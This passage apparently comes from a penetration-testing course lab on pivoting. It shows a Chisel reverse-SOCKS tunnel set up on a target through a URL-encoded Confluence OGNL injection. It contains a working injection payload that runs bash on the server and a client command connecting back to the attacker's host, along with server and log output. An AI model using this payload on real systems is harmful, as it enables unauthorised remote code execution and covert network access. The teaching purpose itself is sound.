 > Listing 4 - The Wget payload executed within our cURL Confluence injection command.

The Apache2 log file (**/var/log/apache2/access.log**) eventually shows the request for the Chisel binary coming in:

```
kali@kali:~$ tail -f /var/log/apache2/access.log
...
192.168.50.63 - - [03/Oct/2023:15:53:16 -0400] "GET /chisel HTTP/1.1" 200 8593795 "-" "Wget/1.20.3 (linux-gnu)"
```

> Listing 5 - The request for the Chisel binary hitting our Apache2 server.

Now that we have the Chisel binary on both our Kali machine and the target, we can run them. On the Kali machine, we'll start the binary as a server with the **server** subcommand, along with the bind port (**\--port**) and the **\--reverse** flag to allow the reverse port forward.

```
kali@kali:~$ chisel server --port 8080 --reverse
2023/10/03 15:57:53 server: Reverse tunnelling enabled
2023/10/03 15:57:53 server: Fingerprint Pru+AFGOUxnEXyK1Z14RMqeiTaCdmX6j4zsa9S2Lx7c=
2023/10/03 15:57:53 server: Listening on http://0.0.0.0:8080
```

> Listing 6 - Starting the Chisel server on port 8080.

The Chisel server starts up and confirms that it is listening on port 8080 and has reverse tunneling enabled.

Before we try to run the Chisel client, we'll run **tcpdump** on our Kali machine to log incoming traffic. We'll start the capture filtering to **tcp port 8080** to only capture traffic on TCP port 8080.

```
kali@kali:~$ sudo tcpdump -nvvvXi tun0 tcp port 8080
tcpdump: listening on tun0, link-type EN10MB (Ethernet), snapshot length 262144 bytes
```

> Listing 7 - Starting tcpdump to listen on TCP/8080 through the tun0 interface.

Next, we'll try to start the Chisel client using the injection, applying the server address and the port forwarding configuration options on the command line.

We want to connect to the server running on our Kali machine (**192.168.118.4:8080**), creating a reverse SOCKS tunnel (**R:socks**). The **R** prefix specifies a reverse tunnel using a **socks** proxy (which is bound to port **1080** by default). The remaining shell redirections (**\> /dev/null 2>&1 &**) force the process to run in the background, so our injection does not hang waiting for the process to finish.

```
/tmp/chisel client 192.168.118.4:8080 R:socks > /dev/null 2>&1 &
```

> Listing 8 - The Chisel client command we run from the web shell.

We'll convert this into a Confluence injection payload and send it to CONFLUENCE01.

```
kali@kali:~$ curl http://192.168.50.63:8090/%24%7Bnew%20javax.script.ScriptEngineManager%28%29.getEngineByName%28%22nashorn%22%29.eval%28%22new%20java.lang.ProcessBuilder%28%29.command%28%27bash%27%2C%27-c%27%2C%27/tmp/chisel%20client%20192.168.118.4:8080%20R:socks%27%29.start%28%29%22%29%7D/

kali@kali:~$
```
